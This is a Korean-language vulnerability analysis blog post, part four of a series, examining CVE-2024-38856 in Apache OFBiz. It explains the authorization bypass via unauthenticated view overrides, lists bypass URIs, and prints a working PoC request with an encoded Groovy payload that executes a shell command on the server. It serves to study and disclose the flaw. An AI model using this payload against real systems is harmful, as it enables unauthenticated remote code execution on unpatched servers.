# Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/Apache%20OFBiz%201-Day%20Analysis/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/Apache%20OFBiz%201-Day%20Analysis/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/Apache%20OFBiz%201-Day%20Analysis/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/Apache%20OFBiz%201-Day%20Analysis/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/Apache%20OFBiz%201-Day%20Analysis/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/Apache%20OFBiz%201-Day%20Analysis/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/Apache%20OFBiz%201-Day%20Analysis/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

# Introduction

세 번째 취약점인 `CVE-2024-38856`은 이전에 발견된 `CVE-2024-32113`, `CVE-2024-36104` 취약점의 근본적인 원인에 대한 취약점입니다. 이전에 발견된 `CVE-2024-32113`, `CVE-2024-36104` 취약점은 공격 벡터가 된 URI를 기반으로 Path Traversal 취약점을 방어했지만, 사실 근본적인 취약점 원인에 대한 해결책은 아니었습니다.

이번 `CVE-2024-38856` 취약점은 NVD에서도 언급되었듯이 Incorrect Authorization 취약점으로, Apache OFBiz에서 인증되지 않은 엔드포인트를 통해 권한 검사 없이 화면 렌더링 코드 실행이 가능한 문제입니다. 그럼 이번 `CVE-2024-38856` 취약점 분석을 통해 근본적인 취약점 발생 원인을 분석해보겠습니다.

> 💿 Apache OFBiz 18.12.14 Download Link
>
> [Apache Download Mirrors - v18.12.14 Download Link](https://www.apache.org/dyn/closer.lua/ofbiz/apache-ofbiz-18.12.14.zip)

</aside>

## Vulnerability Detail

| CVE | CVE-2024-38856 |
| --- | --- |
| Vulnerability | Incorrect Authorization |
| CVSS(3.x) | `CRITICAL` 9.8 |
| Product | Apache OFBiz |
| Version | <= 18.12.14 |
| Link | [`https://nvd.nist.gov/vuln/detail/CVE-2024-38856`](https://nvd.nist.gov/vuln/detail/CVE-2024-38856) |
| Description | Incorrect Authorization vulnerability in Apache OFBiz. This issue affects Apache OFBiz: through 18.12.14. Users are recommended to upgrade to version 18.12.15, which fixes the issue. Unauthenticated endpoints could allow execution of screen rendering code of screens if some preconditions are met (such as when the screen definitions don't explicitly check user's permissions because they rely on the configuration of their endpoints). |

# Analysis

먼저, 이전에 발생한 `CVE-2024-32113`와 `CVE-2024-36104` 취약점이 패치된 Apache OFBiz 18.12.14 버전에서 Path Traversal 공격을 어떻게 방어하고 있는지 살펴보고, 이 버전에서 발생한 `CVE-2024-38856` 취약점의 발생 원인을 분석해보겠습니다.

## 18.12.14 패치 기록

Apache OFBiz 18.12.14 이전 버전에서 발생한 Path Traversal 취약점은 공격 벡터가된 URI의 요청을 방어하기 위한 코드 로직이 추가되었습니다.

> [https://github.com/apache/ofbiz-framework/compare/release18.12.13...release18.12.14](https://github.com/apache/ofbiz-framework/compare/release18.12.13...release18.12.14)
> 



즉, `replaceAll` 메서드를 이용하여 세미콜론(`;`) 문자와 URL 인코딩된 점(`%2e`)을 제거하는 방식으로 Path Traversal 공격을 방어하고 있습니다. 이를 통해 기존 PoC를 수행할 경우 아래와 같이 500 Internal Server Error 응답과 함께 예외가 발생된 것을 확인할 수 있습니다.

✅ `CVE-2024-32113`, `CVE-2024-36104` PoC 요청 패킷

```java
POST /webtools/control/main/test/%2E%2E/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```

✅ Apache OFBiz 18.12.14 버전에서 `CVE-2024-32113`, `CVE-2024-36104` PoC 요청/응답 결과



그러나 위 패치 기록은 단순히 공격 벡터가되는 URI 만을 방어하는 데 초점을 맞추고 있을 뿐, 근본적인 취약점 원인인 권한 검사(Authorization)에 대한 해결책이 아니었습니다. 이로 인해 여전히 인증되지 않은 엔드포인트를 통해 민감한 화면 렌더링 코드가 실행될 수 있는 보안 허점이 존재했습니다.

## 권한 검사(Authorization)

Apache OFBiz에서는 특정 URL 요청에 대한 컨트롤러 역할을 수행하는 `controller.xml` 에서 인증 여부를 정의하고 있습니다.

이 내용은 다음과 같이 `<security>` 요소에 `auth` 속성 값을 `true` 로 지정하여 정의합니다.

🔍 /framework/webtools/webapp/webtools/WEB-INF/controller.xml 파일 내 일부

```xml
<request-map uri="main">
    <security https="true" auth="false"/>
    <response name="success" type="view" value="main"/>
</request-map>

<!-- Entity Information Requests -->
<request-map uri="entitymaint">
    <security https="true" auth="true"/>
    <response name="success" type="view" value="entitymaint"/>
</request-map>
```

위 `controller.xml` 파일 내 코드를 살펴보면, `main` 은 `auth="false"` 로 설정되어 있어 인증을 필요로 하지 않습니다.



반면에, `entitymaint`는 `auth="true"`로 설정되어 있어 인증이 필요합니다. 



즉, 요청 URI(`requestURI`)에 대해 `controller.xml` 에서 `auth="false"` 로 정의된 경우 인증 없이도 접근이 가능한 엔드포인트가 존재하게 됩니다만, Apache OFBiz는 URI 처리 메커니즘에서 특이점이 존재합니다. (ref. [URI 처리 메커니즘](/Apache%20OFBiz%201-Day%20Analysis/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md#URI-처리-메커니즘) )

이는 요청 URI(`requestURI`)는 인증 처리 과정이 존재하지만, 뷰 맵(`overrideViewrUri`)은 인증 처리를 수행하지 않는 것입니다. 따라서, 인증이 필요하지 않은 다른 엔드포인트와 함께 `ProgramExport` 엔드포인트를 덮어씌우는 URI로 요청할 경우 인증 없이도 `ProgramExport` 엔드포인트에 접근이 가능해집니다.

✅ `ProgramExport` 엔드포인트에 접근 가능한 URI 

- `POST` `/webtools/control/main/ProgramExport`
- `POST` `/webtools/control/forgotPassword/ProgramExport`
- `POST` `/webtools/control/showDateTime/ProgramExport`
- `POST` `/webtools/control/view/ProgramExport`
- `POST` `/webtools/control/*TestService*/ProgramExport`

이어서 바로 위 내용에 대한 분석을 수행해보겠습니다. 

## 근본적인 원인 분석

먼저, `ProgramExport` 엔드포인트에 접근 가능한 URI 중 아래의 URI에 대한 패킷을 요청해 보겠습니다.

✅ `POST` `/webtools/control/main/ProgramExport`

```xml
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```

위 요청에 대해서 `ControlFilter.java` 에서는 다음과 같이 공격 벡터가 담긴 URI 패턴 검사에 해당되지 않으므로 URI에 대한 검증을 통과하게 됩니다. 



이후 로직은 `RequestHandler.java` 에서 `path`, `requestUri`, `overrideViewUri` 변수 초기화 과정을 수행하며, 각각의 변수의 값은 다음의 값들이 초기화됩니다.

- `path` /main/ProgramExport
- `requestUri` main
- `overrideViewUri` ProgramExport



이후 인증 검사는 `requestUri` 값(`main`)에 대해서만 인증을 수행 하므로 아래와 같이 인증 검사에서 통과하는 것을 확인할 수 있습니다.



이후 뷰를 렌더링하기 위한 `renderView` 메서드의 인자로 `overrideViewUri` 변수의 값인 `ProgramExport` 가 설정되는 것을 확인할 수 있습니다.



`ProgramExport` 뷰는 다음과 같이 `EntityScreens.xml#ProgramExport` 컴포넌트를 스크린 위젯으로 정의하고 있습니다.

🔍 /framework/webtools/webapp/webtools/WEB-INF/controller.xml 파일 내 일부

```xml
<view-map name="ProgramExport" type="screen" page="component://webtools/widget/EntityScreens.xml#ProgramExport"/>
```

그 다음 `EntityScreens.xml` 에서는 뷰가 렌더링될 때 `ProgramExport.groovy` 스크립트를 실행하는 것을 확인할 수 있습니다.

🔍 /framework/webtools/widget/EntityScreens.xml 파일 내 일부

```xml
<screen name="ProgramExport">
    <section>
        <actions>
            <set field="titleProperty" value="PageTitleEntityExportAll"/>
            <set field="tabButtonItem" value="programExport"/>
            <script location="component://webtools/groovyScripts/entity/ProgramExport.groovy"/>
        </actions>
        <widgets>
            <decorator-screen name="CommonImportExportDecorator" location="${parameters.mainDecoratorLocation}">
                <decorator-section name="body">
                     <screenlet>
                        <include-form name="ProgramExport" location="component://webtools/widget/MiscForms.xml"/>
                    </screenlet>
                    <screenlet>
                        <platform-specific>
                            <html><html-template location="component://webtools/template/entity/ProgramExport.ftl"/></html>
                        </platform-specific>
                    </screenlet>
                </decorator-section>
            </decorator-screen>
        </widgets>
    </section>
</screen>
```

`ProgramExport.groovy` 스크립트 코드는 `groovyProgram` 파라미터를 가져와 해당 값을 그루비 스크립트로 실행(`shell.evaluate(groovyProgram)`)하는 것을 확인할 수 있습니다.

🔍 /framework/webtools/groovyScripts/entity/ProgramExport.groovy 파일 내 일부

```groovy
// 중략

if (!parameters.groovyProgram) {
    groovyProgram = '''
		// 중략
'''
    parameters.groovyProgram = groovyProgram
} else {
    groovyProgram = parameters.groovyProgram
}

// Add imports for script.
def importCustomizer = new ImportCustomizer()
importCustomizer.addImport("org.apache.ofbiz.entity.GenericValue")
importCustomizer.addImport("org.apache.ofbiz.entity.model.ModelEntity")
def configuration = new CompilerConfiguration()
configuration.addCompilationCustomizers(importCustomizer)

Binding binding = new Binding()
binding.setVariable("delegator", delegator)
binding.setVariable("recordValues", recordValues)

ClassLoader loader = Thread.currentThread().getContextClassLoader()
def shell = new GroovyShell(loader, binding, configuration)

if (UtilValidate.isNotEmpty(groovyProgram)) {
    try {
        // Check if a webshell is not uploaded but allow "import"
        if (!SecuredUpload.isValidText(groovyProgram, ["import"])) {
            logError("================== Not executed for security reason ==================")
            request.setAttribute("_ERROR_MESSAGE_", "Not executed for security reason")
            return
        }
        shell.parse(groovyProgram)
        shell.evaluate(groovyProgram)
        recordValues = shell.getVariable("recordValues")
        xmlDoc = GenericValue.makeXmlDocument(recordValues)
        context.put("xmlDoc", xmlDoc)
    } catch(MultipleCompilationErrorsException e) {
```

즉, `/webtools/control/main/ProgramExport` 로 요청 시 `requestUri` 의 값(`main`)에 대해서만 인증 검사를 수행하고 이후 `ProgramExport` 는 렌더링 되어 최종적으로 `ProgramExport.groovy` 스크립트가 실행되며 이때, `groovyProgram` 파라미터가 존재할 경우 해당 값이 그루비 스크립트로 실행되는 것을 확인할 수 있습니다.

이에 대한 전체적인 흐름은 다음과 같습니다.

✅ `/webtools/control/main/ProgramExport` 요청에 대한 흐름

```
사용자 요청 (URL: /webtools/control/main/ProgramExport)
       │
       ▼
Controller 처리 (ControlFilter.java)
       ├── URL 패턴 검사(Path Traversal 공격 벡터 필터링)
       ▼
RequestHandler에서 변수 초기화 (RequestHandler.java)
       ├── `path` 초기화 (`/main/ProgramExport`)
       ├── `requestUri` 초기화 (`main`)
       ├── `overrideViewUri` 초기화 (`ProgramExport`)
       ▼
인증 검사 (requestUri 기준 인증 수행 → `ProgramExport` 인증 우회)
       │
       ▼
뷰 렌더링 (renderView 메서드 호출)
       ├── `ProgramExport` 뷰 매핑 (controller.xml)
       ├── `EntityScreens.xml`에서 `ProgramExport` 뷰 컴포넌트 로드
       ▼
그루비 스크립트 실행 (ProgramExport.groovy)
       ├── `groovyProgram` 파라미터 값 확인
       ├── `shell.evaluate(groovyProgram)` 실행
       ▼
사용자 화면 출력
```

# PoC

결과적으로, 다음의 요청 패킷이 전달될 경우 `groovyProgram` 파라미터에 담긴 임의 명령어(`ls -al`)가 실행되는 것을 확인할 수 있습니다.

> `grovyProgram=throw new Exception('ls -al'.execute().text);` 요청
> 

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```



# Patch

이번 `CVE-2024-38856` 취약점에 대한 패치 버전인 Apache OFBiz 버전 18.12.15 에서는 `ProgramExport.groovy` 스크립트 실행 시 사용자 인증 여부를 검사하는 로직이 추가되었습니다.

> [https://github.com/apache/ofbiz-framework/compare/release18.12.14...release18.12.15](https://github.com/apache/ofbiz-framework/compare/release18.12.14...release18.12.15)
> 



따라서, `CVE-2024-38856` 취약점 PoC를 수행할 경우 다음과 같이 에러 메시지가 발생되는 것을 확인할 수 있습니다.

